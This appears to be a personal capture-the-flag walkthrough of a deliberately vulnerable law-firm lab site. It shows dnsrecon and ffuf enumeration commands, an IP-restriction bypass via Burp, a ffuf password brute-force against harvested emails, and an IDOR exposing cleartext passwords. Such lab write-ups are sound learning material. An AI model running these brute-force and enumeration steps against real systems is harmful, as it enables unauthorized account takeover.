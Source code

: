 1. [x] Sudomain Discovery
	1. [x] `dnsrecon -d vulnlawyers.co.uk -D ~/wordlists/subdomains.txt -t brt`![[Pasted image 20220527050004.png]]
		- Found `data.vulnlawyers.co.uk` and `www.vulnlaywers.co.uk`
	2. [x] Searching on [crt.sh](https://crt.sh/?q=vulnlawyers.co.uk)
		- Nothing found.
	3. Accessing `data.vulnlawyers.co.uk` shows this![[Pasted image 20220527050805.png]] *Found Flag 1*
2. [x] Content discovery on [data.vulnlaywers.co.uk](http://data.vulnlawyers.co.uk)
	1.  `ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSjRZM3A2TTNKMmR5SXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJhYmYwNzRmYWI0Yzk2YjA3OTM4ZDcxNGQ0N2VhZWIzNSJ9" -u http://data.vulnlawyers.co.uk/FUZZ -mc all -fc 404`![[Pasted image 20220527052754.png]]
	2. Visited [/users/](http://vulnlawyers.co.uk/users)and found some users' data![[Pasted image 20220527053245.png]] *Found Flag 3*. This means that maybe there is a mail server running? **No**
3. [x] Content discovery on [www.vulnlawyers.co.uk](http://www.vulnlaywers.co.uk)
	1. `ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSjRZM3A2TTNKMmR5SXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJhYmYwNzRmYWI0Yzk2YjA3OTM4ZDcxNGQ0N2VhZWIzNSJ9" -u http://www.vulnlawyers.co.uk/FUZZ -mc all -fc 404`![[Pasted image 20220528031347.png]]
	2. Visited `/login` in the browser but it redirected me to `/denied` page that showed `Acess is denied from your IP address` error. ![[Pasted image 20220528031530.png]]
	3. Visited `/login` but through Burp proxy, and this showed.![[Pasted image 20220528031716.png]] *Found Flag 2*
	4. Visited `/laywers-only` through Burp that directed me to `/laywers-only-login` then BOOM! A login protal.![[Pasted image 20220528032147.png]]
4. But from the `data.vulnlawyers.co.uk/users` api we found, we have a list of emails that we can now bruteforce their passwords. Trying with the first user `ffuf -w ~/wordlists/passwords.txt -t 1 -p 0.1 -X POST -d "email=marsha.blankenship%40vulnlawyers.co.uk&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSjRZM3A2TTNKMmR5SXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJhYmYwNzRmYWI0Yzk2YjA3OTM4ZDcxNGQ0N2VhZWIzNSJ9" -u http://www.vulnlawyers.co.uk/lawyers-only-login -mc all -fc 401`. Tried all users until I found ![[Pasted image 20220528043012.png]]
5. Logged in with `jaskaran.lowe@vulnlaywers.co.uk` and `summer` as a username and a password respectively. Found this.![[Pasted image 20220528043334.png]]*Found Flag 4*.
6. Surfed the website to see what it does. Found a `/lawyers-only-profile/` page that when seeing its page source, found this URL.![[Pasted image 20220528044022.png]]
7. Visited `/laywers-only-profile-details/4` and found that it reveals the password of every user in cleartext and it is also an *IDOR* vuln.![[Pasted image 20220528044325.png]]
8. Tried some ids and found another flag on `/laywers-only-profile-details/2` ![[Pasted image 20220528044640.png]] *Found Flag 5*
9. It seems that user `shayne.cairns` is an admin because he can delete a case.![[Pasted image 20220528044841.png]]
10. Last flag showed after deleting the case with this admin account.![[Pasted image 20220528045154.png]]*Found Flag 6*
